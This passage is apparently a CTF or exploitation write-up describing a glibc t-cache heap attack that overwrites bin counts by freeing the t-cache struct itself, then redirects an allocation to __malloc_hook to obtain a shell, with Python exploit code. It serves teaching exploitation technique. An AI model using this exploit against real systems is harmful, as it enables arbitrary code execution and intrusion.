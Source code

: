 There's still a problem, though. The t-cache keeps a counter of the number of
chunks it has stored, therefore we can only remove 1 chunk, because we only
freed one of them.

This problem took me a long time to resolve. After playing around in GDB a
bit, it occured to me, that the t-cache itself is allocated on the heap and
getting it into the unsorted bin would overwrite the `count` fields of each
bin with pointers to the `main_arena`.

You can see glibc's t-cache structure in the [source
code](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#tcache_perthread_struct).
The count for each size is stored in a single byte, which makes sense, because
a t-cache can by default only hold 7 chunks at once.

So, when we get the t-cache into the unsorted bin, the first 16 count fields
would be overwritten with addresses. But to get the chunk into the unsorted
bin, we have to fill the t-cache bins for that size beforehand.

Therefore, we free 7 chunks of size 0x290 (the size of the t-cache)
beforehand. The next chunk of size 0x290 that is freed will be put into the
unsorted bin, so we can now free the t-cache.

So our plan is:  
* Fill the t-cache of chunk size 0x290  
* Get the target location from above into the t-cache  
* Free the t-cache, to overwrite the count field of the chunk size 0x30 bin

So, now we only need to determine an address we would like to write to and the
value we would like to write. In this case overwriting `__malloc_hook` seems
easiest to get a shell as it gets called the next time `malloc()` is invoked.
We'll determine the value we need to write there in the next section. Let's
focus on the arbitrary write for now:  
```  
# fill the t-cache with size 0x290 chunks  
# We do this to get the t-cache (size 0x290) into the unsorted bin, when we'll
free it later  
offset = 0x310  
for i in range(7):  
   # create a fake chunk  
   set(0x1780 + i, p64(0) + p64(0x291) + b'free')  
   # free our handcrafted chunk  
   set(get_idx(offset + 0x30), p64(heap_base + offset + 0x10))  
   offset += 0x60

# Create a fake t-cache chunk  
# Index 5 is the self-loop from the heap leak, therefore the chunk gets freed
and the next pointer overwritten to our just allocated payload  
# We control the t-cache chunk's next pointer and set it to __malloc_hook  
# The t-cache then looks like this:  
#  
# size 0x30 [count=1]: Chunk(heap_base + 0x2d0) -> Chunk(heap_base + 0xbd0 + 7
* 0x60) -> Chunk(libc.sym['__malloc_hook'])  
# size 0x290 [count=7]: <not important, just notice that it's full (count=7)>  
#  
# If we call malloc 3 times, we get returned a pointer to '__malloc_hook'  
# However we cannot call malloc() 3-times, because the t-cache counts the
number of elements in the bin and that count is 1 currently  
# So we'll overwrite that value in the next step  
set(5, p64(libc.sym['__malloc_hook']) + p64(heap_base + 0x10))  
log.info("Added chunks to t-cache")

# free the t-cache itself  
# This will overwrite the count in the t-cache with pointers to the main arena
as this chunk is put into the unsorted bin  
# Now the chances are good that the byte that counts the number of 0x30 chunks
in the t-cache is > 3  
```